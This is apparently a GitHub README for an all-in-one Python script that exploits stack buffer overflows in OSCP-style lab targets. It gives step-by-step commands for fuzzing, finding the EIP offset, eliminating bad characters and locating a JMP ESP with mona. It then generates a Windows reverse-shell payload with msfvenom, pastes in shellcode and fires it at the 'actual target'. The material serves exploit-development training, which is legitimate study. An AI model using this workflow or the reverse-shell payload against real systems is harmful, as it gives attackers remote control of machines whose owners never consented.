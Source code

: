 # Stack-Buffer-Overflow

An "All in One" python script for OSCP style stack based buffer overflows.

![image](https://user-images.githubusercontent.com/41350723/173417707-2753ae6f-1bb2-4858-a1a5-a38d7cdc1fb4.png)


## Before you begin.
* Start the vulnerable app via Immunity Debugger or attach it to Immunity 
* Change IP and Port in bof.py
* Connect using netcat and see if you get a banner or an options menu.
* If you do, uncomment s.receive(1024) on line 52.
* If you have to prefix your buffer value with a command, set prefix value otherwise leave it as empty string.
* If after sending a command you get any kind of reply, uncomment s.receive(1024) on line 55.

![image](https://user-images.githubusercontent.com/41350723/173417177-d499ac6e-a14c-4108-a075-836d1023b784.png)

##  Option 1 -- Fuzzer
* Execute and make a note of the largest number of bytes that were sent.
* Generate a cyclic pattern of same length as the bytes that crashed the server.
  
  `msf-pattern_create -l <Bytes>`

* Paste the cyclic string into payload variable in bof.py
    
## Option 2 -- Get Offset
* Restart the app in Immunity Debugger
* Execute Option 2
* In Immunity Debugger, run the following mona command

    `!mona findmsp -distance <bytes>`    <-- Change to same length as the pattern

* In the output you should see a line which states:

    `EIP contains normal pattern : ... (offset XXXX)`

* Update bof.py and set the offset variable to this value

## Option 3 -- Verify Offset
* Restart the app in Immunity Debugger
* Execute Option 3
* The EIP register should now have 4 B's (i.e. 42424242).

## Option 4 -- Generate BadChars
* Generate a bytearray using mona, and exclude the null byte (\x00).

    `!mona bytearray -b "\x00"`

* Note-down the path of the bytearray.bin
* Execute Option 4 to generate a string of bad chars that is identical to the bytearray
* Update bof.py and change the payload variable to this string

## Option 5 -- Check BadChars
* Restart the app in Immunity Debugger
* Execute Option 5
* Make a note of the ESP register address and use it in the following mona command:

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>` <-- modify path and ESP address

* A popup should appear labelled "mona Memory comparison results".
  * The first badchar in the list should be the null byte (\x00).
  * Make a note of any others.
* Generate a new bytearray in mona including these new badchars along with \x00.
    
    `!mona bytearray -b "\x00"   <-- Add the other badchars`

* In bof.py remove the new badchars from paload variable.
* Restart the app in Immunity Debugger
* Run Option 5 again
* Run the mona command agian (Check ESP register, it might have changed)

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>`    <-- modify path and ESP address

* Repeat these steps until the results status returns "Unmodified"

## Option 6 -- Exploit
* With the Application either running or in a crashed state, run one of the following mona commands.
Make sure to add all the badchars you identified (including \x00):
  
  * Find JMP ESP - inside the main executable
	  
    `!mona jmp -r esp -cpb "\x00"`    <-- Add the other badchars identified
	    
  * Find JMP ESP - inside one of the DLLs
	  
    `!mona modules`
    * We need to find a .dll were Rebase, SafeSEH, ASLR, NXCompat are set to False. When you find it, run the command below to search for a JMP ESP (FFE4), inside the dll.
	
	  `!mona find -s "\xff\xe4" -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
	  
      or
	
      `!mona find -s 'jmp esp' -type instr -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
      
    * This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
  * Choose an address and update bof.py by setting the "EIP" variable to the address, written backwards (ittle endian).
    
    `For example if the address is 01020304 in Immunity, write it as EIP = "\x04\x03\x02\x01" in bof.py.`

* Run the follwing msfvenom command to generate a reverse shell
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`       <-- Add the other badchars

* Update bof.py by pasting the generated C code strings into shellcode variable using the following notation:
    ```
    shellcode = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
      Notice there is no semicolon ; at the end
* Adjust the nopsled variable if needed
* Restart the app in Immunity Debugger
* Execute Option 6 after setting up a netcat listner.

## Finaly
* Change IP to actual target's IP.
* Generate new shellcode for the actual target if listening IP is different or its running under wine in linux. 
* Just execute Option 6.
